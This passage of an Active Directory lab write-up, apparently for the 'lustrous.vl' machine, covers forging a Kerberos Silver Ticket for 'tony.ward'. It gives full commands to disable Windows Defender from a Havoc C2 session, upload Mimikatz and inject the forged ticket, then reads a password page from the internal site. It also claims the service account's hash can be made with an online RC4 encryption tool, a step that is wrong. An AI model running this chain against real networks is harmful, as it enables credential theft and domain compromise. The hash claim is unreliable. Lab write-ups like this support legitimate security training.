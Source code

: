 # Silver Ticket for `tony.ward`

You can request it for any user - though if you look back at Bloodhound you'll find interest in the `tony.ward` domain user. It seems that `tony.ward` is part of the `Backup Admins` group, which can hint at the fact that they might have `SeBackupPrivilege` enabled locally.

So let's try to request one as this user. We'll do this from our RDP session as Administrator due to the fact that it should launch a separate PowerShell window when we generate a new logon through Mimikatz.

Firstly though, we'll need a few things to generate a Silver ticket for this user. I've compromised a list of what we'll need and where you can find it below.

* Domain SID - We can find this in a few places, the easiest is in `AppData\Roaming\Microsoft\Protect` in the Administrator's home directory. Make sure to remove the `500` identifier at the end of it since that relates to the Administrator user.
* RC4 for SVC_WEB: We don't have access to this, but we can generate an RC4 ticket online [here](http://rc4.online-domain-tools.com/). We can use their password as both the input text and the key to generate the hash.
* ID for `tony.ward`: You can find this in Bloodhound in the user's node underneath `Object ID`. Their ID should be `1114`.

With that we can build out the command for Mimikatz, which will upload through Havoc. Remember to disable AV so that `mimikatz` isn't blocked.

```
01/06/2024 20:57:23 [5pider] Demon » powershell Set-MpPreference -DisableRealtimeMonitoring $true

01/06/2024 20:58:48 [5pider] Demon » upload (LOCAL PATH)/mimikatz.exe
```

We'll then move back to the RDP session to execute `mimikatz` properly. This is due to some conflictions I ran into with Havoc, so we'll run it on the RDP session in the meanwhile.

```
PS C:\Users\Administrator\Desktop> .\mimikatz.exe "kerberos::golden /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /target:lusdc.lustrous.vl /service:HTTP /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /id:1114 /target:lusdc.lustrous.vl /ptt" "exit"
```

This should submit the Silver ticket for the current session that we are in. It will be say `Golden` ticket at the bottom but since we're requesting it from the context of a service account, it's a silver ticket.

Let's now try to authenticate to the web service in our `tony.ward` login session.

```
(iwr http://lusdc.lustrous.vl/Internal -UseBasicParsing -UseDefaultCredentials).Content

<td>
Password Reminder
</td>
<td>
[...snip...]
</td>
<td>
lustrous_tony.ward
```
